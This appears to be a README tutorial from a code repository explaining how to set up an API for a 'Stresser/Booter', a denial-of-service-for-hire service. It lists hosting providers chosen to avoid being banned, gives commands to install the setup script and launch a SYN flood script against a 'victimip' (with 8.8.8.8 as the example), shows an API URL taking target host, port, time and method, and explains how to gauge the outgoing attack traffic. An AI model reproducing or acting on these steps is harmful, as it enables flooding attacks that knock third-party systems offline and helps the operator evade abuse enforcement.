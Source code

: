 # Author: Sinister Exploits
# Version: 1.0
# How to set up an API for your Stresser/Booter


# REQUIREMENTS
To do this, you must have a VPS server that has Centos 6 installed.
You also need the following,
-SSH Putty
-A VPS Server
-A Computer
-A Brain

Here are some of the best VPS servers for doing this, as you do not get banned that easily.

-Hostkey
-VpsGet
-Ecatel
-Ampnode
-Offshoresrv

# INSTRUCTIONS

first login to your vps/dedi with putty on your server.
root/password

login with WinSCP, Filezilla or any type of FTP application to your server.
go to /root/

Download the 5 files that are given in this tutorial.

go to your SSH putty and type:

cd /root/
perl setup.pl
when it asks you to install, just put the key "  y  " for all.

your API should be installed when finished.

ssyn.pl is a simple perl script that will be used to launch your API.

If you want to test this out, you can put this code in your SSH Putty

perl /root/ssyn.pl victimip port sizeofpacket time
example: perl /root/ssyn.pl 8.8.8.8 80 50000 60

Now, go into your internet explorer and put the following:

yourvpsip/api.php
and see if it works.

now we have to add the apikey, the host, the port, the time, and the method.

yourvpsiphere/api.php?key=apikey&host=[host]&port=[port]&time=[time]&method=[method]

If you want to test out the power, go into your SSH Putty and put:

yum -y install dstat
Once installed,
dstat --n
Thean look at the "Send" and that will tell you how much it is sending, if its in the yellow area, usually means that its just over 1 GB of power.

Thats it of the API installation. Please be sure to check out some of my other tutorials here on GitHub.
